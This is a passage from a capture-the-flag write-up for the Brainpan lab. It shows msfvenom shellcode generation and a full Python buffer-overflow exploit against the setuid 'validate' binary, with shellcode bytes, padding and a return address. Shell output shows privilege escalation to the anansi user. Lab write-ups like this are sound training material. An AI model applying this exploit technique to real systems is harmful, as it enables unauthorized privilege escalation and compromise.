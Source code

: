 ```bash
``` 

We are using the `linux/x86/exec`.  This is a local shellcode as we already have local access from our first exploit.  We indicate
to msfvenom that our bad chars are 0x00 and 0x46 and that we want the output format in python.  Finally out payload needs the CMD
argument set, which is the program we want to execute as part of our shellcode.  The whole thing comes in at 70 bytes, plenty of room
to spare!

Here is our final python exploit.

```python
import os

def to_bytes(n, length, endianess='little'):
    h = '%x' % n
    s = ('0'*(len(h) % 2) + h).zfill(length*2).decode('hex')
    return s if endianess == 'big' else s[::-1]

buf =  ""
buf += "\xba\x4f\xc4\x9c\xf8\xda\xd6\xd9\x74\x24\xf4\x58\x33"
buf += "\xc9\xb1\x0b\x83\xe8\xfc\x31\x50\x11\x03\x50\x11\xe2"
buf += "\xba\xae\x97\xa0\xdd\x7d\xce\x38\xf0\xe2\x87\x5e\x62"
buf += "\xca\xe4\xc8\x72\x7c\x24\x6b\x1b\x12\xb3\x88\x89\x02"
buf += "\xcb\x4e\x2d\xd3\xe3\x2c\x44\xbd\xd4\xc3\xfe\x41\x7c"
buf += "\x77\x77\xa0\x4f\xf7"


return_address = long(0x080484af)
return_address_offset = 116

shell_code = buf + \
             b'A' * (116 - len(buf)) + \
             bytearray(to_bytes(return_address, 4))

os.execv('/usr/local/bin/validate', ["/usr/local/bin/validate", str(shell_code)])
```

The python program above generates our command line argument with our 70 byte shell code, postfixed with 'A''s up to
the return address, then the return address in little endian format.  Lets give it a try

```bash
puck@brainpan:/home/puck$ python2 validate.py 
$ id
uid=1002(puck) gid=1002(puck) euid=1001(anansi) groups=1001(anansi),1002(puck)
$ whoami
anansi
$ 
```

Success, we are now running as the effective user `anansi`.  So what extra does the anansi account give us over puck.  Not 
a lot really.  The only difference from method 1 is that we can now control the contents of the `anansi_util` tool.  So instead
of needing to launch the man page and execute a shell like we did in method 1, we could simply replace the anansi_util tool with
something that launches a shell directly, or a shell executable itself.

Thats all for now folks. 

